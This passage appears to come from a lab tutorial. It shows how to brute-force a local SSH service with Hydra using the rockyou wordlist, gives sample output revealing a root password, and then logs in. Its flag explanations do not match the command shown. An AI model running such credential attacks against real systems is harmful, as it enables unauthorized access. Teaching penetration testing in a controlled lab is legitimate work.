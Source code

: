 
#### Step 2: Run Hydra
Use the following Hydra command to brute-force the SSH service on `localhost:2222`:

```bash
hydra -l root -P rockyou.txt ssh://127.0.0.1:2222
```

- **`-l root`**: Specifies the username (`root` in this case).  
- **`-P passwords.txt`**: Specifies the file containing the list of passwords to try.  
- **`ssh://127.0.0.1`**: Tells Hydra to target the SSH service at `127.0.0.1`.  
- **`-s 2222`**: Specifies the custom port (`2222`).

#### Example Output:
If Hydra finds valid credentials, the output will look something like this:
```plaintext
[22][ssh] host: 127.0.0.1   login: root   password: 1234
```

Now we can simply do this:
```bash
ssh root@127.0.0.1 -p 2222
```

---

### **Best Practices**
1. **Keep It Ethical**: Only use Hydra on systems you own or have explicit permission to test.
2. **Avoid Detection**: Hydra’s brute-force behavior is noisy and can trigger intrusion detection/prevention systems (IDS/IPS).
3. **Experiment Safely**: Set up a controlled environment (e.g., a Docker container) to experiment with Hydra's capabilities.



